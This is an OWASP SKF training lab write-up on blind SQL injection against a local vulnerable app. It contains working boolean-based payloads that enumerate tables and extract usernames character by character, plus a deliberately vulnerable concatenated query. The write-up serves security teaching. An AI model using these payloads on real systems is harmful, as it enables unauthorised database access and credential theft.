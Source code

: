 # KBID 156 - SQLI \(Blind\)

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:sqli-blind
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:sqli-blind
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
``

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker image and write-up thanks to Contrahack.io !](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by pageID and displays the content.

![](.gitbook/assets/sqli-blind-1.png)

```text
http://localhost:5000/home/1
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](.gitbook/assets/sqli-blind-2.png)

```text
http://localhost:5000/home/1'
```

However, it's still not possile we can't see this as the application shows a 404 Error page.

### Step3

Now we need to inject logic operators to check if the application is vulnerable to SQL Injection.

First, we inject a logical operator which is true \(or 1=1\). This should result in the application run as intended without errors.

![](.gitbook/assets/sqli-blind-3.png)

```text
http://localhost:5000/home/1 OR 1=1
```

After that we inject a logical operator which is false \(and 1=2\). This should result in the application returning an error.

![](.gitbook/assets/sqli-blind-4.png)

```text
http://localhost:5000/home/1 AND 1=2--
```

By doing so we are sure the application has a SQL Injection vulnerability.

This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```python
db.execute('SELECT pageId, title, content FROM pages WHERE pageId='+pageId)
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

We need to determine which conditions are TRUE and FALSE for the application. By trial and error it's possible to determine the pageIDs 1,2 and 3 are valid, whereas 4 is not.

![](.gitbook/assets/sqli-blind-6.png)

```text
http://localhost:5000/home/1
```

![](.gitbook/assets/sqli-blind-5.png)

```text
http://localhost:5000/home/4
```

#### Step 2

Now, we need to inject a IF condition, returning 1 for the TRUE cases and 4 for the FALSE ones.

![](.gitbook/assets/sqli-blind-7.png)

```text
http://localhost:5000/home/(select case when 1=1 then 1 else 4 end)
```

#### Step 3

Next step is to add more logic to our injection and starting to retrieve information from data tables. Remember we will never view the data we are retrieving from the DB in the page, but we will do it by logicaly testing if the data exists.

Let's check if the table users exists.

![](.gitbook/assets/sqli-blind-9.png)

```text
http://localhost:5000/home/(select case when tbl_name='users' then 1 else 4 end from sqlite_master where type='table')
```

Good news! As we didn't see an error, it means the table _users_ exists.

By testing different table names, we will receive an 404 error, indicating the table does not exist.

![](.gitbook/assets/sqli-blind-8.png)

### Step 4

From the _user_ table is possible to see that the table contains the columns _UserId_ , _UserName_ and _Password_

![](.gitbook/assets/sqli-blind-10.png)

Let's try to extract a valid user. Instead of having a dictionary of possible users to guess, we can check if the first letter of the first user contains the letter _a_.

![](.gitbook/assets/sqli-blind-11.png)

```text
http://localhost:5000/home/(select case when substr(UserName,1,1)='a' then 1 else 4 end from users limit 0,1)
```

The error indicates it's not the case. Let's try with the letter _A_. Remember, case matters.

![](.gitbook/assets/sqli-blind-12.png)

```text
http://localhost:5000/home/(select case when substr(UserName,1,1)='A' then 1 else 4 end from users limit 0,1)
```

Yes, it matches!

As initial guess, _Admin_ could be a possible user. So, let's test this theory:

```text
http://localhost:5000/home/(select case when substr(UserName,2,1)='d' then 1 else 4 end from users limit 0,1)
```

```text
http://localhost:5000/home/(select case when substr(UserName,3,1)='m' then 1 else 4 end from users limit 0,1)
```

```text
http://localhost:5000/home/(select case when substr(UserName,4,1)='i' then 1 else 4 end from users limit 0,1)
```

```text
http://localhost:5000/home/(select case when substr(UserName,5,1)='n' then 1 else 4 end from users limit 0,1)
```

We made it! None of the requests above returned _404 Error_, so this indicates _Admin_ is a valid value.

Now that you know the logic, you can extract all UserNames stored within this table.

Why not dumping the whole database?

Don't forget to play with Limit numbers to fetch more records.

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

[https://www.owasp.org/index.php/Testing\_for\_SQL\_Injection\_\(OTG-INPVAL-005\)](https://www.owasp.org/index.php/Testing_for_SQL_Injection_%28OTG-INPVAL-005%29)

SQLite Reference

[https://www.techonthenet.com/sqlite/sys\_tables/index.php](https://www.techonthenet.com/sqlite/sys_tables/index.php)

